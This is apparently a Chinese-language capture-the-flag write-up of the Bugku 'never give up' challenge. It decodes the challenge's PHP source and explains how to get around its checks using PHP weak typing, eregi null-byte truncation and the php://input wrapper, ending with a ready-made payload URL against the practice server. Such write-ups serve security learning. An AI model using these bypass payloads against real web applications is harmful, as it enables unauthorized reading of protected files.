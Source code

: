 ```yaml
---
title: bugku_writeup_giveup
date: 2020-04-25 13:16:01
tags: [view-source协议,php弱类型,eregi截断漏洞]
categories:  bugku_writeup
---
```


### never give up

#### 分析前端代码

> 发现了注释为`1p.html`，访问这个页面，被重定向到了bugku主页

`view-source:http://123.206.87.240:8006/test/1p.html`

> 为什么要用这个协议，是因为1p.html重定向了网页，查看网页源代码只能这样

> 发现很多百分号首先推测是url编码，接着是base64，解码后显示网页源代码

```javascript
<script>window.location.href='http://www.bugku.com';</script> 
<!--";if(!$_GET['id']) //如果没有id值为falseh或者0则跳转
{
	header('Location: hello.php?id=1');
	exit();
}
$id=$_GET['id'];
$a=$_GET['a'];
$b=$_GET['b'];
if(stripos($a,'.')) //判断a中是否有.
{
	echo 'no no no no no no no';
	return ;
}
$data = @file_get_contents($a,'r');//类似file函数，把文件数据读入$data

if($data=="bugku is a nice plateform!" and $id==0 and strlen($b)>5 and eregi("111".substr($b,0,1),"1114") and 
//id要等于0(注意==只要求数据相等，并不是数据类型)，字符串'111'连接b的第一个字符去匹配‘1114’ 且b的第一个字符不能是4
substr($b,0,1)!=4)
{
	require("f4l2a3g.txt");
}
else
{
	print "never never never give up !!!";
}
?>-->
```

#### 思路

> 利用eregi的截断漏洞 ：当第一个参数出现%00默认结束
>
> 其实这题可以利用其它payload：b的第一个参数可以是`.`,来形成任意参数
>
> 

==PHP伪协议：PHP://input==

> `payload:http://123.206.87.240:8006/test/hello.php?id='0'&a=php://input&b=%00123456`